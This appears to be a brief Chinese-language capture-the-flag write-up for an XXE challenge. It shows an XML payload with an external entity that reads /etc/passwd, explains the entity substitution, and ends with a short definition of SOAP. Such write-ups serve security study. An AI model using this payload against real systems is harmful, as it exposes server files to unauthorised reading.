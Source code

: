 #XEE
题目给的比较明显了
就是要用XXE，读取/etc/passwd
抓包，改包
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<data>
    <ID>&test;</ID>
</data>
```

实体引用 `&test;` 被替换为 `file:///etc/passwd`

SOAP:
SOAP 是基于 XML 的简易协议，可使应用程序在 HTTP 之上进行信息交换。
或者更简单地说：SOAP 是用于访问网络服务的协议。